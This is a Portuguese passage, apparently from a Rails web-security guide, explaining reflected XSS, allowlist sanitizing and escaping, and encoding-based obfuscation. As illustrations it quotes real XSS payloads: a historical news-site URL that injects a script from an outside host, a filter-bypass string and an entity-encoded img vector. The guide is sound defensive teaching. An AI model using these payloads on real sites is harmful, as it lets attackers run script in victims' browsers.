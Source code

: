 Os ataques de injeção refletida são aqueles em que a carga útil não é armazenada para ser apresentada à vítima posteriormente, mas é incluída na URL. Especialmente os formulários de pesquisa falham ao escapar da string de pesquisa. O seguinte link apresentou uma página que afirmava que "George Bush nomeou um menino de 9 anos para ser o presidente...":

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### Contramedidas

_É muito importante filtrar a entrada maliciosa, mas também é importante escapar a saída da aplicação web_.

Especialmente para XSS, é importante fazer uma filtragem de entrada permitida em vez de restrita. A filtragem de lista permitida declara os valores permitidos em oposição aos valores não permitidos. Listas restritas nunca estão completas.

Imagine uma lista restrita que exclui `"script"` da entrada do usuário. Agora, o atacante injeta `"<scrscriptipt>"` e, após a filtragem, `"<script>"` permanece. Versões anteriores do Rails usavam uma abordagem de lista restrita para os métodos `strip_tags()`, `strip_links()` e `sanitize()`. Portanto, esse tipo de injeção era possível:

```ruby
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```

Isso retornava `"some<script>alert('hello')</script>"`, o que permite que o ataque funcione. Por isso, uma abordagem de lista permitida é melhor, usando o método `sanitize()` atualizado do Rails 2.
```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

Isso permite apenas as tags fornecidas e faz um bom trabalho, mesmo contra todos os tipos de truques e tags malformadas.

Como segundo passo, _é uma boa prática escapar todas as saídas da aplicação_, especialmente ao reexibir a entrada do usuário, que não foi filtrada (como no exemplo do formulário de pesquisa anterior). _Use o método `html_escape()` (ou seu alias `h()`)_ para substituir os caracteres de entrada HTML `&`, `"`, `<` e `>` por suas representações não interpretadas em HTML (`&amp;`, `&quot;`, `&lt;` e `&gt;`).

##### Obfuscação e Injeção de Codificação

O tráfego de rede é baseado principalmente no alfabeto ocidental limitado, então surgiram novas codificações de caracteres, como o Unicode, para transmitir caracteres em outros idiomas. No entanto, isso também é uma ameaça para aplicativos da web, pois código malicioso pode ser ocultado em diferentes codificações que o navegador da web pode ser capaz de processar, mas o aplicativo da web pode não ser. Aqui está um vetor de ataque na codificação UTF-8:

```html
<img src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;
  &#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
```

Este exemplo exibe uma caixa de diálogo. No entanto, ele será reconhecido pelo filtro `sanitize()` acima. Uma ótima ferramenta para ofuscar e codificar strings, e assim "conhecer o seu inimigo", é o [Hackvertor](https://hackvertor.co.uk/public). O método `sanitize()` do Rails faz um bom trabalho para se proteger contra ataques de codificação.
